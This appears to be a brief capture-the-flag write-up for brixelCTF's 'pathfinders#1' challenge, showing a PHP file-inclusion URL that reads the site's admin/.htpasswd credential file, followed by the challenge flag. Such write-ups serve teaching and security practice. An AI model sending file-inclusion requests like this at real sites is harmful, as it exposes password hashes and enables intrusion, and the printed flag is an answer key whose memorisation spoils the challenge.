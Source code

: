 ##pathfinders#1

**205 solves**

seems like [pathfinders page](http://timesink.be/pathfinder/index.php?page=admin/.htpasswd) uses basic http auth so let's try to find .htpasswd file by unsecured include php function 


what will page return by this request? 
http://timesink.be/pathfinder/index.php?page=admin/.htpasswd


flag: brixelCTF{unsafe_include} 